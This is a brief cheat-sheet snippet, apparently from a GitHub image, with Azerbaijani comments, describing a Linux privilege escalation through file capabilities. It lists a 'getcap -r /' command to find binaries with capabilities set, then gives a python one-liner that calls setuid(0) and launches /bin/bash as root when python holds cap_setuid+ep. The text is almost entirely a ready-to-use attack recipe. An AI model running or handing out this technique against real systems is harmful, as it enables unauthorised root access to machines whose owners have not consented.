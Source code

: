 ## getcap -r / 2>/dev/null


## ikinci hisse
## eger icaze olaraq cap_setuid+ep veriblerse

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'

## python versiyasi ferqli ola biler
